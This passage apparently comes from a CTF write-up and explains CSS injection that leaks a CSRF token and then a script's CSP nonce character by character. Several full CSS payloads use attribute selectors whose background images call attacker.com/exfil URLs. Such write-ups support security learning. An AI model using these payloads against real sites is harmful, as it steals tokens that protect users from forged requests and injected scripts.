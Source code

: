 {% highlight css %}
input[name=csrf][value^="a"]{
    background-image: url(https://attacker.com/exfil/a);
}
input[name=csrf][value^="b"]{
    background-image: url(https://attacker.com/exfil/b);
}
/* ... */
input[name=csrf][value^="9"]{
    background-image: url(https://attacker.com/exfil/9);   
}

{% endhighlight %}

In the above code, we are using [CSS attribute selectors](https://developer.mozilla.org/en-US/docs/Web/CSS/Attribute_selectors) to try and match against the first letter of the CSRF token and exfiltrate it. More concretely, in the below case:

{% highlight css %}
input[name=csrf][value^="g"]{
    background-image: url(https://attacker.com/exfil/g);
}
{% endhighlight %}

If the element `input` with the `name` of `csrf` and a `value` beginning with `g` is found (e.g. `<input name='csrf' value='goodcsrftoken'/>`), the `background-image` is loaded, which makes a request to `https://attacker.com/exfil/g`. The attacker can then use this as a side channel to get information about the CSRF token, because if the request received on the attacker's server was `https://attacker.com/exfil/g`, then the first letter of the CSRF token must be `'g'`. If we take this thinking a bit further, it seems like we can do the same for the `nonce` attribute in a `script` element, and with a bit of search and replace we get the following payload:

{% highlight css %}
script[nonce^="g"]{
    background-image: url(https://attacker.com/exfil/g);
}
{% endhighlight %}

This looks really good but we should probably check that it works. As a CTF player your first instinct is likely to Google `css injection CTF nonce`, and you will inevitably encounter [a writeup of Lovely Nonces from ASIS CTF Quals 2021 on ctftime](https://ctftime.org/writeup/31077). Looks like progress! With a bit of modification, we might be able to leak the nonce:

{% highlight css %}
script {display: block;}
script[nonce^="a"]{
    background-image: url(https://attacker.com/exfil/a);
}
script[nonce^="b"]{
    background-image: url(https://attacker.com/exfil/b);
}
/* ... */
script[nonce^="9"]{
    background-image: url(https://attacker.com/exfil/9);   
}

{% endhighlight %}
